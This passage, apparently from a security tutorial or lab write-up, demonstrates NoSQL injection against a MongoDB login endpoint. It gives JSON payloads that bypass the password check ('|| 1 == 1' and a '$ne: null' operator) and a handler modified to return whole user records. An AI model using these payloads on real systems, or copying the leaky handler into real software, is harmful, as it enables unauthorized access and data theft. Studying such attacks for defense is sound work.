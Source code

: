 2.  Inject Logical Conditions

    a.  Example Payload:

> {
>
> \"username\": \"admin\",
>
> \"password\": \"wrongpassword \|\| 1 == 1"
>
> }

The \|\| 1 == 1 is interpreted as a logical OR condition, which always
evaluates to true.

> MongoDB treats this as a valid query, bypassing the password check.

![A screen shot of a computer Description automatically
generated](images/media/image5.png){width="6.5in"
height="3.433333333333333in"}

3.  Retrieve Unauthorized Data:

    a.  Example Payload:

> {
>
> \"username\": \"admin\",
>
> \"password\": { \"\$ne\": null }
>
> }
>
> The query matches any user document in the collection where both
> username and password are not null.
>
> Attackers can use this to infer valid credentials or other sensitive
> information.

b.  With a modified handler:

> if (user) {
>
> //return \'Login successful!\';
>
> return user;
>
> } else {
>
> return \'Invalid credentials\';
>
> }

Its able to retrieve sensitive information:

![A computer screen shot of a computer program Description automatically
generated](images/media/image6.png){width="6.5in"
height="3.6006944444444446in"}
